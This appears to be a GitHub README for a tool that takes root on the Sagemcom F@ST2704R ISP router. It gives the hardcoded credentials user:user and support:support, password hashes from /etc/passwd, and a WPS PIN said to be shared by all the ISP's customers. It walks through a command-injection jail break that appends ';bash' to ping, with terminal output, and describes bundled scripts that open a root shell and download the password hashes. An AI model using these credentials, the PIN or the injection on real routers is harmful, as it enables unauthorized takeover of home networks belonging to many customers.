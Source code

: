 # F@ST2704R has a root shell for everybody!

### What is it?

Basically, if you don't know the admin password of your **SagemCom F@st2704R** router, you can still get a root shell with the user account's hardcoded password.


### Included
`root.sh` is a simple shell script that provides the root shell

`getHashes.sh` uses the same login principle as **root.sh** but automatically downloads the remote /etc/passwd file in a local directory instead of letting the user interact with the shell. You can later crack the DES hashes with a password cracking tool.

`lsFileList.txt` is the complete list of files on the device.

### Usage

`$./root.sh [target=192.168.1.1]` to get a root shell

`$./getHashes.sh [target=192.168.1.1]` to save password hashes. John the Ripper will require sudo on a lot of distro

## Long story short

I went back to my parent's place for a few days. I had quite a surprise: they replaced the nice Cisco router I got them by a **Sagemcom F@ST2704R** . When I asked them why, they told me the local ISP gave **F@ST2704R** to all their clients in the area. Knowing that was quite a lot of clients I decided to take a look at the device.

### So... How is it?

This piece of hardware/software is crap.

Telnet and ssh is activated by default on the LAN. The admin password is a string of 4 lowercase letters. Wrong start mate. **Update: The ISP also gave all their clients the same WPS PIN! Try to aquire the WPA passphrase with PIN 76229909**

I logged on telnet to discover that the provided shell was somewhat limited. Trying basic unix commands would lead to an error.

```
> ls
telnetd:error:774.006:processInput:406:unrecognized command ls
```

Let's see what we have

```
> help
?
help
logout
exit
quit
reboot
adsl
xdslctl
xtm
brctl
cat
loglevel
logdest
virtualserver
ddns
df
dumpcfg
dumpmdm
dm
meminfo
psp
kill
dumpsysinfo
dnsproxy
syslog
echo
ifconfig
ping
ps
pwd
sntp
sysinfo
tftp
wlctl
arp
defaultgateway
dhcpserver
dns
lan
lanhosts
passwd
ppp
restoredefault
route
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
mcpctl
```


No ls, no cd... I would need more than that. Still, I got cat!
From there, I grab the `/etc/passwd` file. There were 2 users I found interesting.

```
support:5IkwiJv9RNzV.:0:0:Technical Support:/:/bin/sh
user:75bUXAuHldJ82:0:0:Normal User:/:/bin/sh
```

We can see their UID and GID is 0... who the hell gives admin privileges to a user account?????
Cracking the hashes with the tool john, we find the credentials are

```
support:support
user:user
```

The admin account had at least the decency of using a different password on every device instead of a hardcoded one...

Trying to log with the support account leads to a dead end, access is denied for some reason.
This is not the case with the "user" account. Typing help in the user prompt gives us a really short list of commands that can be used by the user account.

```
> help
?
help
logout
exit
quit
reboot
dnsproxy
ping
lanhosts
passwd
restoredefault
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
```

### Let's explore the firmware for more info!

Unfortunately, the F@ST2704R firmware is not available to download, but [the F@ST2704 is](http://support.sagemcom.com/site/mo/broadband-access-9/sagemcom-f-st-2704-etisalat-1035/driver). It can't be THAT different eh?
wget this stuff, and binwalk the shit out of it!
Not so surprisingly, the binairies we want exist in the `/bin/` folder, the shell we're provided just can't get to it. We must break the jail.

### Breaking the jail

We have access to ping...

 ```
 > ping -c 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.866 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.866/0.866/0.866 ms
```

I wonder if... Let's try some semicolon magic!

```
> ls
telnetd:error:997.792:processInput:406:unrecognized command ls
 >
 >
 > ping -c 1 127.0.0.1;ls
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.948 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.948/0.948/0.948 ms
bin      etc      mnt      sbin     usr      webs-EN
data     lib      opt      sys      var      webs-FR
dev      linuxrc  proc     tmp      webs
```

Alright! this way I can get a real shell

```
 > ping -c 1 127.0.0.1;bash
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.459 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.459/0.459/0.459 ms


BusyBox v1.17.2 (2013-09-30 17:48:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

 Using the username `user` and the default password `user` followed by this ping/semicolon loophole gives us access to a shell with administrative rights more easiy than brute-forcing the admin's password (default 4 letters, can be changed for another one up to 16 letters).

 **Automated shell script included lucky bastard!**

 **Remember you still have to deal with squashfs read-only filesystem!**

 Honestly I didn't push my research really far. Maybe this has been documented before and maybe the firmware is available somewhere (I might dump it in a few days... or months). If this is the case, contact me.

 ~ Mixbo www.wakowakowako.com